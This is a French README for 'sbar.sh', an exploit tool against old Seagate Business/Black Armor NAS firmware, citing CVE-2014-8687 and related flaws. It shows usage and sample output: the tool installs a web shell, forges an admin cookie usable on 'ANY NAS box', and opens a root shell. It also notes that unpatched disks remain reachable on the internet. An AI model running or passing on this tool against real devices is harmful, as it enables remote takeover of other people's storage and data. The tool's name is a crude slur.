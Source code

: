 # Seagate Black Armor Raper

# DESCRIPTION:
 - Ce script execute exploite une vulnerabilité des disque Seagate Black Armor d'une certaine version.
 - Il demeure encore des disque ouvert à internet et qui ne sont toujours pas mis-à-jour.

# EXPLOIT/VULNERABILITE:
 - EDB-ID:36202		Seagate Business NAS 2014.00319 - Remote Code Execution
 - CVE-2014-8687		Arbitrary Code Execution
 - CVE-2014-8684: 	timing attacks and object injection.
 - CVE-2014-8686: 	a fall-back to the _xor_encode() method of session encryption.

# VERSIONS VULNERABLES:
 - 2014.00319
 - 2013.60311

# UTILISATION:
 - sbar.sh IP PORT
 - Exemple:
 - sbar.sh 127.45.63.89 [7009]


Establishing session with 127.45.63.89 ...
Configuring administrative access ...
Installing web shell (takes a while) ...
Extracting id and hostname ...

Seagape v1.0 -- Interactive Seagate NAS Webshell
  - OJ Reeves (@TheColonial) - https://beyondbinary.io/
  - https://beyondbinary.io/bbsec/001

version           - Print the current firmware version to screen.
dumpcookie        - Print the current cookie to screen.
admincookie <ua>  - Create an admin login cookie (ua == user agent string).
                    Add to your browser and access ANY NAS box as admin.
help              - Show this help.
exit / quit       - Run for the hills.
<anything else>   - Execute the command on the server.

Seagape (root@WKNAS)>




# EXPLOITATION:
 - Generation/creation de cookie admin et authentificagtion à l'interface d'administration en tant qu'administrateur.
 - Ouverture d'un shell root sur le disque avec accès à la racine du disque

# ATTENTION:
 - N'utiliser que sur ses propres infrastructures
 - Laisse des traces et des fichiers.

# LIENS EXTERNES:
 - https://nvd.nist.gov/vuln/detail/CVE-2014-8687
 - https://beyondbinary.io/articles/seagate-nas-rce/
 - https://www.exploit-db.com/exploits/36202


